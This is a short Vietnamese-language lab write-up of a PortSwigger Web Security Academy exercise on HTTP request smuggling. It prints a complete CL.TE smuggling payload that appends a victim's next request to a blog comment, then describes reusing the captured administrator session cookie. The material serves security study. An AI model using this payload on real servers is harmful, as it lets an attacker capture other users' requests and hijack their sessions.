

# Lab: Exploiting HTTP request smuggling to capture other users' requests

## Detect

Lab này tận dụng request smuggling để đẩy một request comment của nạn nhân vào connection đang mở, rồi đọc lại nội dung bị ghép nhầm ở giao diện blog.

## Vì sao có thể capture request

Mục tiêu không phải bypass auth ngay lập tức mà là tạo ra một request bị giữ lại trong back-end, đủ dài để request tiếp theo của victim bị chụp chung vào cùng connection.

## Exploit

Gửi payload sau:

```http
POST / HTTP/1.1
Host: 0a4d008e0380385a81b6899f00990094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 286
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=FbJWCKrYQbNWEdH8XNkwWQlqnZkf1DrR
Content-Length: 970
Content-Type: application/x-www-form-urlencoded

csrf=JVY9rRIdYrgvLd2kx9rsnskfZIFbfyJK&postId=2&name=eee%40gmail.com&email=eee%40gmail.com&website=http%3A%2F%2Fsxfvsf.com&comment=
```

Thêm padding vào cuối payload để body dài hơn `Content-Length: 970`, tránh bị timeout khi back-end chờ đủ dữ liệu.



Sau đó thay `session` bằng session của victim `administrator` rồi reload để xem request của nạn nhân bị capture.
